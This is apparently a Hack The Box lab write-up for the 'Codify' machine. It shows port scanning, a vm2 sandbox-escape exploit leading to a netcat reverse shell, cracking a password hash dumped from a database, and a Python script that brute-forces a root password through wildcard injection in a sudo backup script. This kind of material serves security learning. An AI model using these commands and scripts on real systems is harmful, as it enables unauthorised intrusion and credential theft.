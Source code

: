 # HTB - Codify

### TL;DR
This is an Ubuntu 22.04 machine running a web application created with vulnerable version of vm2 library. Exploiting the vulnerability, we get inital foothold, and pivot to ssh user is gained through password hunting in the file system. Escalation is achieved exploiting vulnerability in local backup shell script, for this purpose we generate our own custom exploit.

**Keywords:**<br>
node.js, vm2, python exploit scripting

**References:**<br>
https://www.cvedetails.com/cve/CVE-2023-32314<br>
https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac<br>
https://www.baeldung.com/linux/bash-single-vs-double-brackets#4-pattern-matching
### PHASE 1. Service enumeration
Launch a port scan with `nmap`
```markdown
> nmap $target -p- -T4 -Pn --open --reason
nmap $target -p- -T4 -Pn --open --reason
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-05 06:35 EST
Nmap scan report for 10.129.156.20
Host is up, received user-set (0.065s latency).
Not shown: 64814 closed tcp ports (conn-refused), 718 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
3000/tcp open  ppp     syn-ack

Nmap done: 1 IP address (1 host up) scanned in 30.45 seconds
```
There are 2 web servers running. If you browse with firefox, you see they are made with vm2 library.

![codify2](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/67d649f9-bbb7-4e24-80a6-430cbdecafa8)

For reverse shell, we'll focus on exploiting vm2 vulnerabilities.
### PHASE 2: User
Searching for vm2 vulnerabilities, we came across this cve-2023-32314 (https://www.cvedetails.com/cve/CVE-2023-32314)
A poc can be found in github: https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac
Running it in the application we have immediate code execution.

![codify1](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/3106cd02-8828-48bb-9a51-9f36691a0b4d)

Which can be used to send a `mkfifo nc` reverse shell.

![codify3jpg](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/b968c1f1-5f35-4ea5-8027-e55803658b2d)

Once inside the machine, first step is to inspect the `/etc/passwd` file, which reveals our first step would be to pivot to user joshua.
```markdown
> cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
```
Searching for interesting files in the file system, we came across this one `/var/www/contact/tickets.db`, which turns out to contain joshua's password hash.
```markdown
> cat /var/www/contact/tickets.db
�T5��T�format 3@  .WJ
       otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)��     tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
��G�joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
��
����ua  users
             ickets
r]r�h%%�Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open� ;�wTom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open
```
This is a blowfish hash which can be cracked with `hashcat`.
```markdown
hashcat -m 3200 -a 0 -d 1 hash.txt .\rockyou.txt -r .\rockyou-30000.rule
```
ssh in as user joshua using found credentials and collect the flag.
### PHASE 3. System
Let's see if joshua is a sudoer.
```markdown
sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```
It seems he can sudo run a backup script located at `/opt/scripts/mysql-backup.sh`. Inspect the code of the script which reveals to be vulnerable to wildcard injection.

![codify4](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/5d9dc9ca-0f30-47fa-bcca-f403f554bed5)

Using double brackets in the `if` comparison allows us to use wildcards to guess the password, using a process similar to blind sql injections.
To find out more about the difference between single brackets and double brackets read this: https://www.baeldung.com/linux/bash-single-vs-double-brackets#4-pattern-matching
In summary, both conditions `[[$DB_PASS == Password123!]]` and `[[$DB_PASS == P* ]]` will be evaluated as true in the if statement.
To brute force the password you can use 3 methods:
1. Manually. Letter by letter, not recommended.
2. Semi-manually. Create a file called `letter` containing all lower-case, upper-case and digits and bruteforce them using a loop. Add letters sequentially as you discover in each iteration. The first loop iteration would look like this:
```markdown
> for i in $(cat letters);do echo a* | sudo /opt/scripts/mysql-backup.sh && echo "$i";done
```
As soon as you find a new character, add it to the for loop (e.g. `...echo abcde*...`) and repeat until no more letters are discovered.<br>
3. Using a python script. Elegant and fast. The machine also has perl installed. A proposed python script would be the following:
```python
import string
import os

chars = string.ascii_letters + string.digits
password=''
next=1

print("[+] initializing bruteforce script...")
print("[+] bruteforce in progress, please wait...")
while next==1:
        for i in chars:
                errorlevel=os.system("echo "+password+i+"* | sudo /opt/scripts/mysql-backup.sh >/dev/null 2>&1")
                if errorlevel==0:
                        password=password+i
                        print("[+] new character found: "+password)
                        next=1
                        break
                else: next=0
print("[+] process terminated, root password is: "+password)
```
Running it, the root mysql password is revealed in less than a minute, which turns out to be a reuse of the system's root password.

![codify5](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/651f989c-f9e3-4ae8-83a3-a5f97dc017b1)


